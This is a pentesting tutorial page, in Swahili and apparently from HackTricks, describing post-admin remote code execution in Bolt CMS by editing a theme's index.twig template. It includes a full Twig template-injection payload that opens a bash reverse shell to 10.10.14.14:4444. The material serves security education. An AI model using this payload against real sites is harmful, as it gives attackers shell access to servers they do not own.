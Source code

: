 # Bolt CMS

{{#include ../../banners/hacktricks-training.md}}

## RCE

Baada ya kuingia kama admin (nenda kwenye /bot kupata kiashiria cha kuingia), unaweza kupata RCE katika Bolt CMS:

- Chagua `Configuration` -> `View Configuration` -> `Main Configuration` au nenda kwenye njia ya URL `/bolt/file-edit/config?file=/bolt/config.yaml`
- Angalia thamani ya mandhari

<figure><img src="../../images/image (771).png" alt=""><figcaption></figcaption></figure>

- Chagua `File management` -> `View & edit templates`
- Chagua mandhari msingi iliyopatikana katika hatua ya awali (`base-2021` katika kesi hii) na uchague `index.twig`
- Katika kesi yangu hii iko kwenye njia ya URL /bolt/file-edit/themes?file=/base-2021/index.twig
- Weka payload yako katika faili hii kupitia [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/index.html#twig-php), kama: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
- Na uhifadhi mabadiliko

<figure><img src="../../images/image (948).png" alt=""><figcaption></figcaption></figure>

- Futa cache katika `Maintenance` -> `Clear the cache`
- Fikia tena ukurasa kama mtumiaji wa kawaida, na payload inapaswa kutekelezwa

{{#include ../../banners/hacktricks-training.md}}
